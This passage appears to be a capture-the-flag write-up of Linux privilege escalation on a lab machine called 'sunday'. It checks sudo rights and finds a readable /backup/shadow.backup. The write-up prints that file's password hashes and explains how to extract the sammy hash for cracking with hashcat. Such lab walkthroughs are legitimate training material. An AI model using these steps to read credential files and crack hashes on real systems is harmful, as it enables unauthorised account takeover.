 ```
sudo -l
```

```
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

Okay so we can run the file `troll` under the directory `/root/`. Interesting... Let's see what this is doing by running it.

```
sudo /root/./troll
```

```
sunny@sunday:~$ sudo /root/./troll
testing
uid=0(root) gid=0(root)
```

Looks like it is just echoing out "testing" and then using the `id` command to show the `user ID` and the `group ID` of the user. It is showing us the `root` user because we ran this with `sudo`. So that's interesting but it won't really do us any good because the file can only be edited as the `root` user.  I manually was looking around and found in the root of the file system a directory `backup`. This isn't a normal directory that is in Unix systems so I went ahead and looked in it.

```
sunny@sunday:/$ ls
backup  bin  boot  cdrom  dev  devices  etc  export  home  kernel  lib  lost+found  media  mnt  net  opt  platform  proc  root  rpool  sbin  system  tmp  usr  var
```

```
sunny@sunday:/$ ls -la backup/
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2020-07-31 17:59 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
```

There is a `shadow.backup` file that I can read. If you do not know what `shadow` is. Under the `/etc/` directory is a file named `shadow`. The `shadow` file is where actual passwords are stored (in a hashed format) for user accounts. So since we can see the hash value of user accounts, we could possibly go and crack the hash using a tool like `hashcat` which will try to crack hashes given a hash and a list of possible passwords. So we can see we have two hashes: `sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::` and `sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::`. The sunny hash won't do us any good because we already have the password. Let's look into the `sammy` user account. The hash is only from the first `$` sign to the last `:`. So the hash would look like this: `$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB`.

```
sunny@sunday:/$ cat backup/shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
